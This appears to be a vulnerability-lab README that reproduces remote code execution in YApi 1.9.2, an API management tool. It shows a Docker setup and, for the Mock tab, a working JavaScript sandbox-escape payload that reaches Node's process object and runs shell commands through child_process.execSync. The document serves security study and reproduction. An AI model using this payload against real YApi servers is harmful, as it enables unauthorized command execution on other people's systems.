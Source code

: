 # YApi Registration and Mock Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

YApi is a API management tool developed by Node.JS. If registration of the YApi server is enabled, attackers will be able to execute arbitrary Javascript code in the Mock page.

References:

- <https://paper.seebug.org/1639/>
- <https://www.freebuf.com/vuls/279967.html>

## Vulnerability Environment

Execute following command to start a YApi server 1.9.2:

```
docker compose up -d
```

After the server is started, browse the `http://localhost:3000` to see the index page of the YApi.

## Vulnerability Reproduce

Register a normal user then create a project and an interface:

![](1.png)

![](2.png)

There is a "Mock Tab" that you can input JavaScript code, put the evil code into textarea:

```
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("id;uname -a;pwd").toString()
```

![](3.png)

Then, go back to the preview tab and see the Mock URL:

![](4.png)

Open that URL, Mock script is executed and you can see the output:

![](5.png)
